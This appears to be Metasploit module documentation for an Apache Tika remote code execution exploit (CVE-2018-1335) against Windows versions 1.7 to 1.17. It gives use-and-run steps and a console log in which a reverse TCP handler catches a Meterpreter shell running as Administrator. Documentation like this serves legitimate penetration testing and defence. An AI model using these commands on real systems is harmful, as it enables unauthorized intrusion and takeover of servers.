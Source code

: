 ## Vulnerable Application

  This module should work against Windows installations of Apache Tika 1.7 - 1.17, and was successfully tested on
  1.17.  Apache Tika can be downloaded from [here](https://archive.apache.org/dist/tika/), and requires Java to be installed.

  Rhino Security Labs has an Excellent write-up describing this vulnerability.  Find it on
  [rhinosecuritylabs.com](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/) or
  [wayback](https://web.archive.org/web/20190314101650/https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploits/windows/http/apache_tika_jp2_jscript```
  4. Do: ```run```
  5. You should get a shell.

## Scenarios

### 1.17 on Windows 2012 running as Administrator

```
resource (tika.rb)> use exploits/windows/http/apache_tika_jp2_jscript
resource (tika.rb)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (tika.rb)> set verbose true
verbose => true
resource (tika.rb)> check
[*] Apache Tika Version Detected: 1.17
[+] 2.2.2.2:9998 - The target is vulnerable.
resource (tika.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Powershell command length: 2278
[*] Sending PUT request to 2.2.2.2:9998/meta
[*] Sending stage (179779 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:49313) at 2019-03-28 21:33:09 -0400

meterpreter > getuid
Server username: WIN-OBKF2JFCDKL\Administrator
meterpreter > getpid
Current pid: 1552
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
